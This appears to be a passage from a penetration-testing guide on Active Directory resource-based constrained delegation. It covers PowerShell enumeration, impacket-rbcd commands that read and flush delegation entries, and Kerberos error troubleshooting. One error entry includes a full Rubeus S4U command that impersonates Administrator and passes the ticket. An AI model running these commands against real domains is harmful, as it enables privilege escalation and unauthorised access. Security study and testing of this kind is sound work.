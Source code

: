 ```
### Enumerate computers with RBCD configured

PowerShell (decoding the SD to resolve SIDs):

```powershell
# List all computers with msDS-AllowedToActOnBehalfOfOtherIdentity set and resolve principals
Import-Module ActiveDirectory
Get-ADComputer -Filter * -Properties msDS-AllowedToActOnBehalfOfOtherIdentity |
  Where-Object { $_."msDS-AllowedToActOnBehalfOfOtherIdentity" } |
  ForEach-Object {
    $raw = $_."msDS-AllowedToActOnBehalfOfOtherIdentity"
    $sd  = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $raw, 0
    $sd.DiscretionaryAcl | ForEach-Object {
      $sid  = $_.SecurityIdentifier
      try { $name = $sid.Translate([System.Security.Principal.NTAccount]) } catch { $name = $sid.Value }
      [PSCustomObject]@{ Computer=$_.ObjectDN; Principal=$name; SID=$sid.Value; Rights=$_.AccessMask }
    }
  }
```
```
Impacket (read or flush with one command):

```bash
# Read who can delegate to VICTIM
impacket-rbcd -delegate-to 'VICTIM$' -action read 'domain.local/jdoe:Summer2025!'
```
```
### Cleanup / reset RBCD

- PowerShell (clear the attribute):

```powershell
Set-ADComputer $targetComputer -Clear 'msDS-AllowedToActOnBehalfOfOtherIdentity'
# Or using the friendly property
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount $null
```
```
- Impacket:

```bash
# Remove a specific principal from the SD
impacket-rbcd -delegate-to 'VICTIM$' -delegate-from 'FAKE01$' -action remove 'domain.local/jdoe:Summer2025!'
# Or flush the whole list
impacket-rbcd -delegate-to 'VICTIM$' -action flush 'domain.local/jdoe:Summer2025!'
```
```
## Kerberos Errors

- **`KDC_ERR_ETYPE_NOTSUPP`**: This means that kerberos is configured to not use DES or RC4 and you are supplying just the RC4 hash. Supply to Rubeus at least the AES256 hash (or just supply it the rc4, aes128 and aes256 hashes). Example: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
- **`KRB_AP_ERR_SKEW`**: This means that the time of the current computer is different from the one of the DC and kerberos is not working properly.
- **`preauth_failed`**: This means that the given username + hashes aren't working to login. You may have forgotten to put the "$" inside the username when generating the hashes (`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`)
- **`KDC_ERR_BADOPTION`**: This may mean:
  - The user you are trying to impersonate cannot access the desired service (because you cannot impersonate it or because it doesn't have enough privileges)
```